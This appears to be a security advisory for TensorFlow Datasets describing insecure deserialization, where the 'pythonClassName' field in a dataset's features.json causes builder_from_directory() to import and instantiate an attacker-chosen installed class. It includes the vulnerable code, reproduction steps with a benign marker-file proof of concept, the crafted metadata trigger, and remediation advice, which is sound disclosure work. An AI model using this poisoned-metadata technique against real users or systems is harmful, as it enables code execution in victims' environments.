










# TensorFlow Datasets 4.9.10 — Arbitrary Python Class Instantiation via Dataset Metadata in builder_from_directory

## Summary

Google TensorFlow Datasets (TFDS) at commit `0a109f1ec6ca3638db9db97e3fecd809f5fccffa` (version `4.9.10+nightly`, 2026-09-10) is affected by an insecure-deserialization issue in the feature-connector restore path: when a user loads a generated dataset directory with `tfds.builder_from_directory()`, the `pythonClassName` value stored in the dataset metadata (`features.json`) is used to dynamically import an arbitrary Python module via `importlib.import_module()` and to instantiate the named class through `FeatureConnector.from_json_content()`, without any allowlist or signature verification. A distributed dataset directory is data, not code: it contains only `dataset_info.json` and `features.json`. An attacker who ships, shares, or poisons such a directory therefore gets constructor-level code execution of any class already installed in the victim environment, even though the dataset package itself contains no Python code.

## Affected Product

| Field | Value |
|---|---|
| Vendor | Google (The TensorFlow Datasets Authors) |
| Product | tensorflow-datasets (TFDS) |
| Affected versions | git commit `0a109f1ec6ca3638db9db97e3fecd809f5fccffa` (2026-09-10, version `4.9.10+nightly`); the same `importlib.import_module` logic is still present on the `master` branch as of 2026-10-04 |
| Component | `tensorflow_datasets/core/features/feature.py`, `FeatureConnector.cls_from_name()` / `from_proto()` / `from_config()`, reached from `tfds.builder_from_directory()` |
| Platform | OS-independent (pure Python); verified on Ubuntu 24.04 (WSL2), Python 3.12 |
| Vulnerability type | CWE-502: Insecure Deserialization (metadata-driven arbitrary class import and instantiation) |

## Root Cause

**Location:** `tensorflow_datasets/core/features/feature.py:401-432` (`FeatureConnector.cls_from_name`), reached from `from_proto()` at `feature.py:618-629` and `from_json()` at `feature.py:434-476`, which is invoked by `from_config()` at `feature.py:646-667` while restoring `features.json` in `DatasetInfo.read_from_directory()` (`tensorflow_datasets/core/dataset_info.py:744-745`), called during `tfds.builder_from_directory()` (`tensorflow_datasets/core/read_only_builder.py:169`).

TFDS serializes dataset features into `features.json` as proto-JSON; the top-level object carries `pythonClassName`, the fully qualified name of the `FeatureConnector` class to reconstruct. On restore, if the class name is not in the internal registry, TFDS splits the string into module and class parts and imports the module with `importlib.import_module()`, then resolves the class and calls its `from_json_content()` factory, which by convention returns a freshly constructed connector (`cls(...)`). The comment in the code confirms this is intentional behavior ("Dynamically import custom feature-connectors"), but the value originates from the dataset directory, which is attacker-controlled data:

```python
@classmethod
def cls_from_name(cls, python_class_name: str) -> Type['FeatureConnector']:
  err_msg = f'Unrecognized FeatureConnector type: {python_class_name}.'
  # Dynamically import custom feature-connectors
  if python_class_name not in cls._registered_features:
    if '.' not in python_class_name:
      raise ValueError(
          f'Python class name must contain a dot, got: "{python_class_name}"'
      )
    module_name, _ = python_class_name.rsplit('.', maxsplit=1)
    try:
      # Import to register the FeatureConnector
      importlib.import_module(module_name)   # <-- imports any module named in the metadata
    except ImportError as exception:
      raise ValueError(...) from exception
  feature_class = cls._registered_features.get(python_class_name)
  ...
  return feature_class                      # <-- then from_proto() calls from_json_content() -> cls()
```

The restore path is: `builder_from_directory(dir)` -> `ReadOnlyBuilder.__init__` -> `DatasetInfo.read_from_directory()` -> since `dataset_info.json` does not embed the features, `TopLevelFeature.from_config()` reads `features.json` -> `FeatureConnector.from_json()` parses it as proto-JSON -> `FeatureConnector.from_proto()` -> `cls_from_name(feature_proto.python_class_name)` -> `importlib.import_module('victim_effect_feature')` -> `feature_cls.from_json_content(value=...)` -> `EffectFeature()` constructor runs in the victim's process. The dataset directory is not on `sys.path` and contains no `.py` file; the executed code comes from whatever is already installed in the environment, which the attacker selects by name. Any installed class whose constructor, module import, or `from_json_content` has side effects can be driven this way, and custom packages the victim has installed are reachable exactly like TFDS built-ins.

## Proof of Concept

### Prerequisites

- Python environment with `tensorflow-datasets` installed from the affected commit (`pip install <tfds source at 0a109f1>` plus `tensorflow-cpu`).
- Two ordinary Python modules pre-installed in that environment (simulating the victim's installed packages): `victim_effect_feature.py` defining `EffectFeature`, a `tfds.features.FeatureConnector` subclass whose `__init__` prints a banner and writes a marker file `/tmp/tfds_poc_effect_marker.txt`, and `victim_safe_feature.py` defining the benign `SafeFeature` with no side effects. Both are installed independently of the dataset package, via `pip`-style copy into `site-packages`.
- The crafted dataset directories `poc_dataset_malicious/` and `poc_dataset_negative/`, each containing only `dataset_info.json` and `features.json` — no Python code, no data files. The two directories are byte-identical except for the root `pythonClassName` value in `features.json`: `victim_effect_feature.EffectFeature` (malicious) vs `victim_safe_feature.SafeFeature` (control).

### Steps to Reproduce

1. In the victim environment (verified against `tensorflow-datasets` `4.9.10+nightly` from the pinned commit):



2. Install the two "victim environment" modules into `site-packages`:

```bash
python install_victim_packages.py
```



3. Generate the malicious and control dataset directories and their SHA-256 sums:

```bash
python make_poc.py
```



4. Verify the dataset package is metadata-only:

```bash
ls poc_dataset_malicious
```



5. Inspect the attacker-controlled trigger field — the root `pythonClassName` of `features.json`:

```bash
cat poc_dataset_malicious/features.json
```



6. The companion `dataset_info.json` is a normal TFDS metadata file (name, splits, version) and contains no features payload:

```bash
cat poc_dataset_malicious/dataset_info.json
```



7. Record the baseline: the effect marker does not exist yet:

```bash
ls /tmp/tfds_poc_effect_marker.txt
```


8. Load the malicious dataset package the way a victim would (the environment runs TFDS `4.9.10+nightly` from commit `0a109f1`):

```bash
python victim_load.py poc_dataset_malicious
```



The printed banner `[PoC] EffectFeature.__init__ executed in the victim process` comes from the constructor of the class named in `features.json`, and `builder loaded: poc_dataset 1.0.0` shows that `builder_from_directory()` completes normally afterwards.

9. Confirm the constructor's side effect landed on disk:

```bash
cat /tmp/tfds_poc_effect_marker.txt
```



10. Negative control: reset the marker and load the byte-identical package whose `pythonClassName` points to the benign `SafeFeature`:

```bash
rm /tmp/tfds_poc_effect_marker.txt
```

```bash
python victim_load.py poc_dataset_negative
```



11. The marker file is not recreated:

```bash
ls /tmp/tfds_poc_effect_marker.txt
```



### Expected vs Actual

- Expected: `tfds.builder_from_directory()` reconstructs feature connectors from the built-in registry only, and a metadata-only dataset directory can never cause code execution; loading a package whose `pythonClassName` references a non-builtin class should fail with `Unrecognized FeatureConnector type`.
- Actual: TFDS imports the module named in the metadata (`victim_effect_feature`) and instantiates the named class (`EffectFeature()`), executing its constructor with observable side effects (screen banner and file write at `/tmp/tfds_poc_effect_marker.txt`); with `victim_safe_feature.SafeFeature` in the identical package nothing happens, proving the `pythonClassName` metadata value alone selects the executed code.

### Sanitized PoC input

```text
poc_dataset_malicious/features.json (trigger field, complete file is 13 lines):
{
    "featuresDict": {
        "features": {
            "value": {
                "pythonClassName": "tensorflow_datasets.core.features.scalar.Scalar",
                "tensor": {
                    "dtype": "int32",
                    "encoding": "none",
                    "shape": {}
                }
            }
        }
    },
    "pythonClassName": "victim_effect_feature.EffectFeature"
}
```

The negative-control package `poc_dataset_negative/features.json` is identical except the last field is `"pythonClassName": "victim_safe_feature.SafeFeature"`. SHA-256 sums are in `SHA256SUMS.txt`: the two `dataset_info.json` files are byte-identical (`820231232f20256e2f9db291c28256e97155e4ec0115f147f2c90a55610171dd`), and only the `pythonClassName` value differs between the two `features.json` files.

## Impact

- Confidentiality: High — instantiation of an attacker-chosen installed class can disclose data (e.g. classes that read, send, or log environment content), and the primitive composes with any gadget class present in the victim environment.
- Integrity: High — constructor code runs with the victim process's privileges and can write or modify files, as demonstrated by the marker file, or alter program state before the dataset is even read.
- Availability: None demonstrated — the reproduction performs a benign write, but the same primitive reaches arbitrary installed constructor logic.
- Scope: arbitrary code execution is bounded by which classes/modules are installed in the victim environment; no memory corruption is involved.

## Remediation

Resolve `pythonClassName` exclusively against the registered built-in connectors and remove the dynamic `importlib.import_module()` fallback in `FeatureConnector.cls_from_name()` (`tensorflow_datasets/core/features/feature.py:415`), or restrict it to an explicit allowlist of trusted namespaces. For backward compatibility with genuinely custom connectors, require an explicit opt-in API (e.g. a `trusted_feature_connectors=` argument to `builder_from_directory`) instead of trusting dataset metadata. Until patched, do not call `tfds.builder_from_directory()` / `tfds.builder_from_directories()` on dataset directories from untrusted sources.

## References

- Source repository: https://github.com/tensorflow/datasets
- Affected commit: https://github.com/tensorflow/datasets/commit/0a109f1ec6ca3638db9db97e3fecd809f5fccffa
- Vulnerable function: https://github.com/tensorflow/datasets/blob/0a109f1ec6ca3638db9db97e3fecd809f5fccffa/tensorflow_datasets/core/features/feature.py#L401-L432
- Vendor security policy: https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md (applies to all repositories in the TensorFlow organization; reports via https://g.co/vulnz)
- CWE: https://cwe.mitre.org/data/definitions/502.html
- Upstream advisory: `[pending publication]`
